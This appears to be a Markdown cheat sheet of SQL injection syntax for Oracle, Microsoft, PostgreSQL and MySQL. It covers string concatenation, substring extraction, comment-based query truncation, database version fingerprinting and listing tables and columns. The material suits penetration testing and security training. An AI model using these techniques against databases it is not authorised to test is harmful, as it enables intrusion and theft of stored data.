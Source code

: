 # SQL Injection Cheatsheet

> This SQL injection cheat sheet contains examples of useful syntax that you can use to perfrom a variety of tasks that often arise when performing SQL injection attacks.

# String Concatenation

> You can concatenate together multiple strings to make a single string.

**Oracle** :: 'foo'||'bar'                                          <br>
**Microsoft** :: 'foo'+'bar'                                        <br>
**PostgreSQL** :: 'foo'||'bar'                                      <br>
**MySQL** :: 'foo' 'bar' [Note the space between the two strings]   <br>
**MySQL** :: CONCAT('foo','bar')                                    <br>

# Substring

> You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ba.

**Oracle** :: SUBSTR('foobar', 4, 2)        <br>
**Microsoft** :: SUBSTRING('foobar', 4, 2)  <br>
**PostgreSQL** :: SUBSTRING('foobar', 4, 2) <br>
**MySQL** :: SUBSTRING('foobar', 4, 2)      <br>

# Comments

> You can use comments to truncate a query and remove the portion of the original query that follows your input.

**Oracle** :: --comment                                         <br>
**Microsoft** :: --comment                                      <br>
**Microsoft** :: /✶comment✶/                                    <br>
**PostgreSQL** :: --comment                                     <br>
**PostgreSQL** :: /✶comment✶/                                   <br>
**MySQL**	:: #comment                                           <br>
**MySQL**	:: /✶comment✶/                                        <br>
**MySQL**	:: -- comment [Note the space after the double dash]  <br>

# Database version

> You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

**Oracle**  :: SELECT banner FROM v$version   <br>
**Oracle**  :: SELECT version FROM v$instance <br>
**Microsoft** :: SELECT @@version             <br>
**PostgreSQL** :: SELECT version()            <br>
**MySQL** :: SELECT @@version                 <br>

# Database contents

> You can list the tables that exist in the database, and the columns that those tables contain.

**Oracle** :: SELECT * FROM all_tables                                                          <br>
**Oracle** :: SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'                <br>
**Microsoft** :: SELECT * FROM information_schema.tables                                        <br>
**Microsoft** :: SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'  <br>
**PostgreSQL** :: SELECT * FROM information_schema.tables                                       <br>
**PostgreSQL** :: SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' <br>
**MySQL** :: SELECT * FROM information_schema.tables                                            <br>
**MySQL** :: SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'      <br>

